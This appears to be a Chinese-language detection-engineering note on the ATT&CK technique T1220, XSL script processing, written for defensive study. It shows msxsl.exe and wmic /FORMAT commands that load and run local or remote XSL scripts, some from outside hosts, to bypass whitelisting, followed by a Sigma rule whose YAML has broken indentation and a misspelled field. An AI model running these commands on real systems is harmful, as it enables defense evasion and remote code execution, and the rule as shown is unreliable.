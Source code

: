 # T1220-Win-XSL Script Processing

## 来自ATT&CK的描述

Extensible Stylesheet Language (XSL)是用来描述和渲染XML文件的。为了进行复杂的操作，XSL增加了不同的语言。红队可以使用它来运行二进制代码绕过白名单的检查。和Trusted Developer Utilities相似，msxsl.exe可以在本地或者远程运行JavaScript，虽然msxsl.exe不是默认安装了，但是红队可以打包它并放在客户端。msxsl.exe运行时接收两个参数，XML源文件和XSL stylesheet。既然xsl文件也是一个xml，红队可以使用xsl文件两次，当msxsl.exe运行的时候。红队可以给xml/xsl文件任意的扩展名。

命令行的例子如下:

- msxsl.exe customers[.]xml script[.]xsl
- msxsl.exe script[.]xsl script[.]xsl
- msxsl.exe script[.]jpeg script[.]jpeg

另一种技术叫做Squiblytwo，它使用windows管理工具调用JScript或VBScript在xsl文件中，这个技术也可以执行远程或本地的script，和Regsvr32一样，Squiblydoo也是一个windows信任的工具。

命令行的例子如下:

- Local File: wmic process list /FORMAT:evil[.]xsl
- Remote File: wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”

## 测试案例

无

## 检测日志

Windows安全日志/Sysmon日志

## 测试复现

### 测试1 MSXSL BYPASS USING LOCAL FILES

首先需要下载工具msxsl.exe，目前尚未找到可下载的地址

```yml
C:\Windows\Temp\msxsl.exe msxslxmlfile.xml msxslscript.xsl
```

尚未复现成功

### 测试2

```yml
msxsl.exe http://snappyzz.com/msxslxmlfile.xml http://snappyzz.com/msxslscript.xsl
```

## 日志留痕

可参考Windows 安全日志4688事件说明、Windows Sysmon安全日志1事件说明。

## 检测规则/思路

### sigma规则

```yml
title: windows下使用msxsl.exe加载恶意程序
description: msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过该程序，我们可以执行JavaScript进而执行系统命令。
status: experimental
author: 12306Bro
logsource:
​    product: windows
​    service: security
detection:
​    selection:
​       EventID: 4688 #Windows 安全日志
        Process_name: 'msxsl.exe' #Application Name
        Commanline: 
           - '*.xsl'
     - '*.xml'
     - 'http://*'
​    condition: selection
level: medium
```

### 建议

使用进程监控来监测msxsl.exe和wmic.exe的执行和参数。将这些工具最近的调用与之前已知的良好参数和加载文件的历史进行比较，以确定异常和潜在的恶意活动（例如：URL命令行参数、创建外部网络连接、加载与脚本相关的DLLs）。脚本调用前后使用的命令参数也可能有助于确定被加载的有效载荷的来源和目的。

在一个不用于这些目的的系统上出现msxsl.exe或其他能够实现代理执行的实用程序，通常用于开发、调试和逆向工程，可能是可疑的。

## 参考推荐

MITRE-ATT&CK-T1220

<https://attack.mitre.org/techniques/T1220>

跟着ATT&CK学安全之defense-evasion

<https://snappyjack.github.io/articles/2020-01/%E8%B7%9F%E7%9D%80ATT&CK%E5%AD%A6%E5%AE%89%E5%85%A8%E4%B9%8Bdefense-evasion>
